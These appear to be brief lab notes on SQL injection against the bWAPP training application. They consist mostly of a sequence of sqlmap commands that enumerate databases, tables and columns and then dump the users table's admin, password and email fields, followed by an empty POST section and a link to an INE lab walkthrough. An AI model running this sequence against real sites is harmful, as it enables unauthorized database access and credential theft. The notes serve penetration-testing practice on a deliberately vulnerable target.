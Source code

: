 LOOK FOR PARAMTERS 

GET request 
- sqlmap -u "http://192.210.141.3/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=ipcund5314149g188pfhb3pff1; security_level=0" -p title

- sqlmap -u "http://192.210.141.3/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=ipcund5314149g188pfhb3pff1; security_level=0" -p title --dbs

- sqlmap -u "http://192.210.141.3/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=ipcund5314149g188pfhb3pff1; security_level=0" -p title -D bWAPP --tables

- sqlmap -u "http://192.210.141.3/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=ipcund5314149g188pfhb3pff1; security_level=0" -p title -D bWAPP -T users --columns

- sqlmap -u "http://192.210.141.3/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=ipcund5314149g188pfhb3pff1; security_level=0" -p title -D bWAPP -T users -C admin,password,email --dump


POST request 


https://assets.ine.com/labs/ad-manuals/walkthrough-2129.pdf


